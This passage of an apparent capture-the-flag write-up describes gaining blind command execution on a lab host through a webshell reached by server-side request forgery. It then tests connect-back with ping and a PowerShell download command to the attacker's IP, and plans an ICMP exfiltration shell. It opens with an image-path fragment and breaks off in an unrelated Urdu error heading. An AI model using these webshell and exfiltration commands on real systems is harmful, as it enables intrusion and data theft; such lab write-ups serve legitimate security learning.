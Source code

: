 If I change `whoami` to something that doesn't exist as a command like
`0xdf`, it returns "Exit Status=1". This fits, as a successful command
typically returns 0, and otherwise shows an error. So I have probably
code execution, but it's blind.

### Connect Back Enumeration

When I think have blind execution, the first thing to verify it's
actually executing is to `ping` my host and watch for it on `tcpdump`.
I'll start it, and visit
`http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=ping%20-n%201%2010.10.14.6`.
`tcpdump` sees the ICMP packet:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:28:11.313557 IP 10.10.10.57 > 10.10.14.6: ICMP echo request, id 1, seq 268, length 40
    21:28:11.313630 IP 10.10.14.6 > 10.10.10.57: ICMP echo reply, id 1, seq 268, length 40



Next I'll try to connect back with an HTTP request. I'll start a Python
webserver, and pass
`powershell -c '(new-object new.webclient).downloadstring("http://10.10.14.6")'`
as `xcmd`, but there's no connection. I'll a bunch of other ports and
other ways, but nothing will connect back to me except for ICMP.

### Shell over HTTP/ICMP

I'm going to write a Python script that will help me leak data and
enumerate this host. I'm also going to need a short Powershell blob that
will:

-   run a command
-   capture the results
-   break the results into parts
-   send the results back in ICMP packets

The Python script will:

-   take the input command and build the PowerShell with it
-   submit that PowerShell via the webshell
-   capture ICMP packets from Minion
-   extract the data from the packet and print it to the screen

[Scapy](https://scapy.readthedocs.io/en/latest/introduction.md) is a
Python packet utility that can craft and sniff packets. I'll use Scopy
to handle the ICMP, and Python Cmd to make the script feel like a shell.
It won't have persistence between commands (I can't `cd` for example),
but otherwise it works pretty well. [This
video](https://www.youtube.com/watch?v=itMImlUZP0E) shows the process of
creating it:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

